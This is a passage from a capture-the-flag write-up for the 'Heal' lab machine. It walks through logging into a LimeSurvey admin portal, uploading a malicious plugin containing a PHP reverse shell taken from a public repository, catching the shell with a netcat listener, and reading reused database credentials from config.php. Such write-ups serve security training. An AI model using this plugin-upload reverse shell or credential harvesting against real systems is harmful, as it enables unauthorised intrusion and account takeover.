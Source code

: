 ## Discovering the Survey Subdomain uses LimeSurvey
On the main webpage we can see a survey page that allows us to submit a survey on another subdomain `take-survey.heal.htb` this survey subdomain is running LimeSurvey, this can be confirmed by looking at the source code

![heal_info_card](/assets/images/heal/survey.png)

#### Creating the Malicious Plugin
LimeSurvey has an admin portal, since we have some credentials we can try to log in at the `http://take-survey.heal.htb/admin` page. The credentials work and we can now access the admin portal which allows us to upload a malicious plugin that contains a php reverse shell. To do this go to `Configurations->Settings->Plugins`, from this page we can install and activate plugins to craft a malicious plugin I used [this github repository](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE). I changed the IP and ports numbers of the reverse shell and zipped the contents using the following command:

```
git clone https://github.com/Y1LD1R1M-1337/Limesurvey-RCE
cd Limesurvey-RCE
vim php-rev.php -> changed IP and port numbers
zip -r plugin.zip .
```
We can now upload this zip file to Limesurvey. Remember to activate the plugin after uploading it. Once the plugin is up and running we can then navigate to `http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php` to trigger the reverse shell. Also remember to set up a listener on the port you specified.

```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.46] 59306
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 16:23:25 up 1 day, 27 min,  0 users,  load average: 0.07, 0.04, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
## Finding Ron's Password
As www-data does not have many privileges I try to find some credentials that would allow me to login as one of the two users in the box. I end up finding some database credentials that are also valid for the ron user. This configuration file can be found inside of `/var/www/limesurvey/application/config/config.php`

